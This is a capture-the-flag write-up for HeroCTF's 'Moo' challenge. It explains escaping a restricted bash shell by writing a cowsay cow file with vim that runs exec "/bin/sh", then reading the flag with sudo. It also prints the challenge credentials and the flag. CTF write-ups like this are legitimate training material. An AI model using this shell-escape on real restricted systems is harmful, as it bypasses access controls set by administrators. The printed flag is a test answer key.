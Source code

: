 # Moo

### Category

Misc

### Description

Just read the flag, it's all there.

Credentials: `user:password`

> Deploy on [deploy.heroctf.fr](https://deploy.heroctf.fr/)

Format : **Hero{flag}**<br>
Author : **Log_s**

### Write Up

We are welcomed by this nice cow:
```
 ______________________________________________________
/ Welcome dear CTF player! You can read the flag with: \
\ /bin/sudo /bin/cat /flag.txt                         /
 ------------------------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

However, we seem to be in a restricted shell:
```
$ /bin/sudo /bin/cat /flag.txt  
bash: /bin/sudo: restricted: cannot specify `/' in command names
```

Normal commands don't seem to work, except for `ls`:
```
user@moo:~$ echo $PATH
/usr/local/rbin
user@moo:~$ ls /usr/local/rbin
cowsay  dircolors  ls  rbash  vim
```

We  are not allowed a lot. Vim seems to be a good way to escape, but after some testing you can notice that it's pretty restricted too. The challenge name and the the welcome banner are hints toward the use of `cowsay`. Also, it's one of the few programs allowed. [GTFOBins](https://gtfobins.github.io/gtfobins/cowsay/) says that we can escape the restricted shell with `cowsay`:
```
TF=$(mktemp)
echo 'exec "/bin/sh";' >$TF
cowsay -f $TF x
```

Redirection is not allowed:
```
$ echo 'exec "/bin/sh";' >file
bash: file: restricted: cannot redirect output
```

However `vim` is allowed. We can write a file "a" with the content `exec "/bin/sh";` and then use `cowsay` to escape the restricted shell:
```
user@moo:~$ cowsay -f ./a x 
$ /bin/sudo /bin/cat /flag.txt
Hero{s0m3_s4cr3d_c0w}
```

Congratz!

### Flag

Hero{s0m3_s4cr3d_c0w}